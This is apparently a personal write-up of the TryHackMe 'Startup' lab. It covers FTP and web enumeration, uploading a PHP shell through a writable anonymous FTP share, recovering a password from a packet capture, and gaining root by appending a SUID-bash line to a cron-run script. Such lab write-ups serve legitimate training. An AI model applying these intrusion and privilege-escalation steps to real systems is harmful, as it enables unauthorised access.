




# Startup (THM)

- https://tryhackme.com/room/startup
- March 3, 2023
- easy

---

## Enumeration

### Nmap

1. 21/ftp vsftpd 3.0.3
   - anonymous login allowed
   - writable
   - important.jpg
   - notice.txt
2. 22/ssh OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
3. 80/http Apache/2.4.18 (Ubuntu)

### Enumerate FTP

- anonymous login

```
drwxrwxrwx    2 65534    65534        4096 Nov 12  2020 ftp
-rw-r--r--    1 0        0          251631 Nov 12  2020 important.jpg
-rw-r--r--    1 0        0             208 Nov 12  2020 notice.txt
```

- notice.txt

```
Whoever is leaving these damn Among Us memes in this share, it IS NOT FUNNY. People downloading documents from our website will think we are a joke! Now I dont know who it is, but Maya is looking pretty sus.
```

### Enumerate HTTP

- directory brute forcing with ffuf

```sh
$ ffuf -u http://$IP/FUZZ -w /usr/share/wordlists/common.txt -e php,txt -c
```

- found `files` directory



- it is same directory as ftp

## User Access

- FTP server's anonymous login, we have full access (read/write) in ftp directory
- Let's try this

  - put php_shell.php file
  - listen with nc in local machine
  - then, send get request to `http://$IP/files/php_shell.php`

```sh
$ curl http://10.10.33.5/files/ftp/php_shell.php
```

- we get `www-data` user access



- `ls -la /`
  - incidents directory
  - recipe.txt which are www-data's

```sh
$ cat recipe.txt
Someone asked what our main ingredient to our spice soup is today. I figured I can't keep it a secret forever and told him it was love.
```

- in incidents, one pcapng file found
- copy to local machine and analyse with wireshark.
- from one tcp stream, found like that



- try to login with lennie with password



```sh
lennie@startup:~$ cat /home/lennie/user.txt
...


lennie@startup:~/scripts$ cat planner.sh
#!/bin/bash
echo $LIST > /home/lennie/scripts/startup_list.txt
/etc/print.sh


lennie@startup:/tmp$ ls -lah /home/lennie/scripts/planner.sh
-rwxr-xr-x 1 root   root     77 Nov 12  2020 planner.sh

lennie@startup:~/scripts$ cat /etc/print.sh
#!/bin/bash
echo "Done!"

lennie@startup:~/scripts$ ls -lah /etc/print.sh
-rwx------ 1 lennie lennie 25 Nov 12  2020 /etc/print.sh

```

## Root Access

- planner.sh -> run by root, that lennie cannot write
- in planner.sh, it calls /etc/print.sh, that lennie can write
- check which processes are running with pspy64

```sh
2023/03/03 17:57:01 CMD: UID=0     PID=5420   | /bin/bash /home/lennie/scripts/planner.sh
2023/03/03 17:57:01 CMD: UID=0     PID=5419   | /bin/sh -c /home/lennie/scripts/planner.sh
...
```

- found that planner.sh is running once per minute

- write to create SUID bash by root

```sh
echo "cp /etc/bash /tmp/bash; chmod +s /tmp/bash;" >> /etc/print.sh
```

- then, check at /tmp folder and found bash

```sh
/tmp/bash -p
```

- get root access

```sh
$ cat /root/root.txt
...
```

---
